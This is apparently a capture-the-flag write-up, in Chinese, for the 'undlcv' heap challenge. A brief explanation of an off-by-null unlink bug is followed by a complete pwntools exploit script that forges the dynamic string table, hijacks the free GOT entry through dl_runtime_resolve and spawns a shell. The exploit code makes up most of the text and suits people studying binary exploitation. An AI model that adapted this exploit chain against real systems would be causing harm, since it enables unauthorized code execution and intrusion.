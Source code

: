 ### undlcv

> x86_64:libc2.23, canary, NX, No RELRO，比较有意思的是此程序没有任何输出，io全靠sleep

- 漏洞：堆块本体off-by-null
- 利用：由off-by-null触发unlink，构造libc2.23 unlink利用方法，可以修改到程序中的数据指针，进而完成任意地址写。由于没有任何输出函数，故无法泄露libc。但因为`No RELRO`，故利用dl_runtime_resolve完成任意的libc函数调用。

```python
from pwn import *
context(log_level='debug',arch= 'amd64')
myelf = ELF("./undlcv")

#io = remote("183.129.189.60",10013)
io = process(myelf.path)
str_table      = myelf.get_section_by_name('.dynstr').data()
fake_str_table = str_table.replace("free","system")

#gdb.attach(io)
#sleep(1)
sl      = lambda data          :  (io.sendline(data),sleep(0.01))
add     = lambda index         :  (sl("1"),sl(str(index)))
edit    = lambda index,data    :  (sl("2"),sl(str(index)),sl(data))
free    = lambda index         :  (sl("3"),sl(str(index)))

ptr = 0x403480
fd  = ptr - 0x18 
bk  = ptr - 0x10

free_got = 0x403418
str_tab  = 0x4032A0

add(0)
add(1)
fake_chunk = flat([0,0xf1,fd,bk])
edit(0,fake_chunk.ljust(240,'a')+p64(0xf0))

# trigger unlink
free(1)

edit(0,p64(0)*3+p64(str_tab)+p64(free_got)+fake_str_table)

# write ("/bin/sh",fake str_table addr) to str_tab (0x5,real str_table addr)
edit(0,'/bin/sh\x00'+p64(0x403490))

# write 0x401030 to free_got
edit(1,p64(0x401030))

# trigger dl runtime reslove
free(0)
io.interactive()

```
